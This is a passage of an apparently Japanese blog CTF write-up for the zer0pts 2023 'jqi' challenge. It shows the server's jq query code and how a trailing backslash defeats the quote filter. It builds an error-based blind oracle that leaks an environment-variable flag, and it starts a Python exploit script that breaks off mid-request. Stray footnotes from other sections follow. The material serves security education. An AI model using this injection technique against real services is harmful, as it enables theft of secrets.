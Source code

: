 ```javascript
    let query = `[.challenges[] ${condsQuery} | {${keysQuery}}]`;
    console.log('[+] keys:', keys);
    console.log('[+] conds:', conds);

    let result;
    try {
        result = await jq.run(query, './data.json', { output: 'json' });
    } catch(e) {
        console.error(e);
        return reply.send({ error: 'something wrong' });
    }

    if (conds.length > 0) {
        reply.send({ error: 'sorry, you cannot use filters in demo version' });
    } else {
        reply.send(result);
    }
});
```

### 解法

```javascript
        // check if the query is trying to break string literal
        if (str.includes('"') || str.includes('\\(')) {
            return reply.send({ error: 'hacking attempt detected' });
        }
```
によって、文字列からの脱出によるインジェクションを対策していますが、`\`を末尾に置くことで`\"`になり脱出が可能です。

一般的なblind SQLi攻撃の考え方と同様に攻撃を組むことで攻撃できそうです。jqの仕様には詳しくないため、ドキュメント等を漁りながらオラクルを構成しました。都合が良いことに、jq実行時にエラーが発生するかどうかでレスポンス内容が変化するためerror-basedなオラクルができます[^jqi-01]。

[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。

使ったjqの仕様は以下のとおりです。

- `#`でコメントアウト
- `implode`による任意文字列の生成
    - validationで`"`の文字種が利用できなかったため
- オラクル: `if (env.FLAG | startswith(...)) then error(...) else 0 end`
    - `env.FLAG | startswith(...)`によるフラグのprefix判定
    - `error`によるランタイムエラーの発生

なお、`data.json`には`[0-9a-z{}]`の文字種がそろっており、`ascii_upcase`と組み合わせることで任意文字列の生成が可能でした。でもこの方法は面倒でやりたくないなあと思っていたところ、`implode`を発見して楽ができました。

### 攻撃

```python
import httpx
import string

# BASE_URL = "http://localhost:8300"
BASE_URL = "http://jqi.2023.zer0pts.com:8300"

CHARS = "}_" + string.ascii_letters + string.digits


def make_str(xs: str) -> str:
    return "(" + "+".join([f"([{ord(x)}] | implode)" for x in xs]) + ")"


def is_ok(prefix: str) -> bool:
    res = httpx.get(
        f"{BASE_URL}/api/search",
        params={
```

[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。